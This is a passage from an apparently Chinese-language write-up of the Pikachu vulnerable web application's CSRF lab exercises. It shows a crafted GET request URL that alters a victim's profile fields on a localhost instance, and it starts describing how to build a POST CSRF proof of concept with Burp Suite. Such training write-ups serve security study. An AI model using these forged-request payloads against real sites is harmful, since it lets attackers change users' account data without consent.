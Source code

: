 修改sex为male并放行，发现修改成功

> <img src="./IMG/2EQ{]%A[N4[((LY]}{$32~I.png">

直接构造CSRF攻击的payload

```url
http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=male&phonenum=U HAS BEEN HACKED&add=chain&email=vince%40pikachu.com&submit=submit
```

> <img src="./IMG/$9561SMFA%@0(JBJP3[VN1I.png">

### CSRF(POST)

本题使用allen，因为是POST，不能在url栏直接构造payload，我们需要构造一个恶意网页，这里直接使用BurpSuite自带的工具。抓包，生成CSRF POC
